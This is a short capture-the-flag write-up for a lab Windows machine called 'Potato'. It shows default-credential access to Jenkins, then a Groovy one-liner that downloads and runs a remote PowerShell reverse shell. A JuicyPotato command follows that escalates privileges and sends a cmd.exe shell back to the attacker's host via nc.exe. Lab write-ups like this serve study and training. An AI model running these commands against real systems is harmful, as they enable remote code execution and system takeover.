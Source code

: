 ```yaml
---
title: Potato
created: '2020-07-04T17:00:13.835Z'
modified: '2020-07-04T18:01:28.179Z'
---
```


# Potato
- IP: `172.31.1.19`
- OS: `Windows`
## Enumeration
### Writeup
We find a Jenkins portal at port 8080 and `admin:admin` works as credentials
At `http://172.31.1.19:8080/script`, we can execute Groovy scripts.
```
def process = "PowerShell.exe -exec bypass -c \"(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.0.8/reverse.ps1')|iex\"".execute()
println "Found text ${process.text}"
```
We use [this oneliner ps1 revshell](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)

`JuicyPotato -l 1337 -p c:\windows\system32\cmd.exe -a "/c c:\users\ben\desktop\nc.exe -e cmd.exe 10.10.0.8 1234" -t *`
### Commands
<details>
<summary>nmap</summary>

- `nmap -p 1-65535 -T4 -A -v 172.31.1.19`
```

```
</details>
